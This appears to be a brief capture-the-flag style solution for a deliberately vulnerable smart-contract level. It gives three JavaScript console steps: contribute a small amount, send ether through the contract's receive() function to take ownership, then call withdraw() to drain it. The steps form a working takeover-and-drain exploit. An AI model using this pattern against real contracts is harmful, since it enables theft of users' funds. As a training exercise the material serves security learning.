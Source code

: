 Contribute so we pass receive() require()

```javascript
await contract.contribute.sendTransaction({ from: player, value: toWei('0.0009')})
```

Send funds through receive()

```javascript
await sendTransaction({from:player, to:contract.address, value:toWei("0.00001") })
```

Call withdraw()

```javascript
await contract.withdraw()
```
